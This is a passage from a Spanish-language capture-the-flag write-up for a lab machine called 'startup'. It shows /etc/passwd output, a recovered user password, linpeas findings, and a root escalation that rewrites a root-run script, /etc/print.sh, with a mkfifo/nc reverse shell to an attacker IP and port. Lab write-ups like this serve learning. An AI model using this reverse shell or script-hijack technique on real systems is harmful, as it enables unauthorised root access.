 ```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
...
www-data@startup:/$ su lennie
su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/$ 

```


## Extra: Linpeas

```bash         
/vagrant                           
/recipe.txt                       
/vmlinuz.old                       
/vmlinuz                            
/incidents                         
/initrd.img                       
/lost+found                       
/initrd.img.old            
```

## Shell como root

Existe un script que es ejecutado por root, entonces sabiendo esto solo tenemos que ir:

```bash
lennie@startup:~/scripts$ cat planner.sh
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

Modificamos el archivo */etc/print.sh* y ponemos nuestra reverse:

```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.206.201 9999 >/tmp/f
echo "Done!"
```

Nos ponemos a la escucha:

